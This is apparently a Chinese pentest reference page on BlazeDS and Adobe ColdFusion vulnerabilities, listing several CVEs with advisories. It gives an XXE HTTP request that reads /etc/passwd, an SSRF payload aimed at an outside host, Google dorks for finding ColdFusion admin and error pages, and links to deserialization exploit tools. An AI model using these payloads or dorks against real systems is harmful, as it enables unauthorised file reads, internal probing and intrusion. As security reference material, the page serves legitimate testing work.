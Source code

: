 #### [CVE-2009-3960] XXE BlazeDS<= 3.2
影响组件：
HTTPChannel servlet。具体的，是
```
“mx.messaging.channels.HTTPChannel”
“mx.messaging.channels.SecureHTTPChannel”
```
在这个包`flex-messaging-common.jar`里。
HTTPChannel 以AMFX格式的数据进行通信（就是AMF的XML格式）。
这个endpoints在这个文件`Flex/WEB-INF/services-config.xml`里定义。

默认HTTPChannel映射到了以下接口：
- /messagebroker/http
- /messagebroker/httpsecure
不过不同的框架（比如BlazeDS, Adobe LiveCycle Data Services）会被映射到不同的路径。

```http
POST /samples/messagebroker/http HTTP/1.1
Content-type: application/x-amf

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [ <!ENTITY x3 SYSTEM "/etc/passwd"> ]>
<amfx ver="3" xmlns="http://www.macromedia.com/2005/amfx">
  <body>
    <object type="flex.messaging.messages.CommandMessage">
      <traits>
        <string>body</string><string>clientId</string><string>correlationId</string>
        <string>destination</string><string>headers</string><string>messageId</string>
        <string>operation</string><string>timestamp</string><string>timeToLive</string>
      </traits><object><traits />
      </object>
      <null /><string /><string />
      <object>
        <traits>
          <string>DSId</string><string>DSMessagingVersion</string>
        </traits>
        <string>nil</string><int>1</int>
      </object>
      <string>&x3;</string>
<int>5</int><int>0</int><int>0</int>
    </object>
  </body>
</amfx>
```

参考：
- [Adobe (Multiple Products) - XML External Entity / XML Injection](https://www.exploit-db.com/exploits/11529)
- [Adboe官方对BlazeDS的公告](https://www.adobe.com/support/security/bulletins/apsb10-05.html)

#### [CVE-2015-3269]XXE BlazeDS< 4.7.1
http://mail-archives.apache.org/mod_mbox/flex-users/201511.mbox/%3Cop.x8j4mv0bn9yd54@christofers-macbook-pro.local%3E
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

#### [CVE-2015-5255]SSRF BlazeDS< 4.7.2
http://apache-flex-users.2333346.n4.nabble.com/CVE-2015-3269-Apache-Flex-BlazeDS-Insecure-Xml-Entity-Expansion-Vulnerability-td10976.html

```xml
<!DOCTYPE foo PUBLIC "-//VSR//PENTEST//EN"
"http://49.x.y.z:8888/protected-service"><foo>Some content</foo>
```


#### [CVE-2017-3066]Adobe Coldfusion BlazeDS反序列化
影响范围：
- Adobe ColdFusion 2016 Update 3 and earlier
- Adobe ColdFusion 11 update 11 and earlier
- ColdFusion 10 Update 22 and earlier


#### [CVE-2017-5641] 反序列化 BlazeDS< 4.7.3
- [CVE-2017-5641] - DrayTek Vigor ACS 2 Java Deserialisation RCE


### 参考
- [Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution](https://www.exploit-db.com/exploits/43993)
- https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html
- [Exploitation Tool for CVE-2017-3066 targeting Adobe Coldfusion 11/12](https://github.com/codewhitesec/ColdFusionPwn/tree/master/src/main/java)
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md
- [Adobe官方公告](https://helpx.adobe.com/security/products/coldfusion/apsb17-14.html)

## 其他参考

- [ColdFusion for Pentesters](http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf)
- http://web.archive.org/web/20101226181618/http://www.security-assessment.com/files/advisories/2010-02-22_Multiple_Adobe_Products-XML_External_Entity_and_XML_Injection.pdf


### Google Dorks
```
- filetype:cfm "cfapplication name" password
- inurl:login.cfm
- intitle:"Error Occurred" "The error occurred in"
- filetype:cfm
- intitle:"ColdFusion Administrator Login“
- intitle:"Index of" cfide
- inurl:/CFIDE/componentutils/
```


### CodeFusion各个版本的界面


## 利用工具
- https://github.com/codewhitesec/ColdFusionPwn/tree/master/src/main/java
- https://github.com/mbechler/marshalsec/blob/6e5f2a7974a62fcd0e5bbbf8df64774a50db2eb8/src/main/java/marshalsec/BlazeDSAMF3AM.java
- https://github.com/mbechler/marshalsec/blob/0471b932a09c8aca21876de80c8abf65b251c9ca/src/main/java/marshalsec/BlazeDSAMFX.java
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md



